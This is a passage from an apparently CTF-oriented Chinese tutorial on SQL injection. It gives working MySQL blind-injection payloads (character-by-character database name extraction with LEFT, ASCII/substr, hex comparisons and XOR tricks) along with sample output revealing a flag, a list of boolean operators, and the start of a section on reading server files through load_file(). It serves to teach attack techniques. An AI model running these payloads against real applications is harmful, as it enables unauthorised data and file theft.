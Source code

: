 ```mysql
select * from users where id='1' and LEFT(database(),2)='ab'-- 
```

```mysql
select * from users where id='1' and LEFT(database(),2)>'ac'-- 
```

```mysql
select * from users where id='1' and ASCII(substr(database(),1,1))=98-- 
```

也可以用字符的十六进制代替字符串

```mysql
select * from users where id=1 and 0x73=(select(mid(database() from 1 for 1)))
```



#### 4.1.3 布尔/算数运算符号总结

and	&&

or		||

xor	^

not	!

`+`、`-`、`*`、`/`

异或注入的语句如下，当

```mysql
mysql> select * from test where id='1'^(mid(database(),1,1)='a')^1;
Empty set (0.00 sec)
```

```mysql
mysql> select * from test where id='1'^(mid(database(),1,1)='b')^1;
+----+----------+--------------------------+
| Id | username | passwd                 |
+----+----------+--------------------------+
|  1 | admin    | ctfshow{123333333333333} |
+----+----------+--------------------------+
1 row in set (0.00 sec)
```





### 4.2 SQL读写文件

#### 4.2.1 读取文件

关键函数：`load_file()`

**（1）盲注逐字符读取文件**

```mysql
select * from test where id=1 and substr((select load_file('D:\\test.txt')),1,1)='t'
```
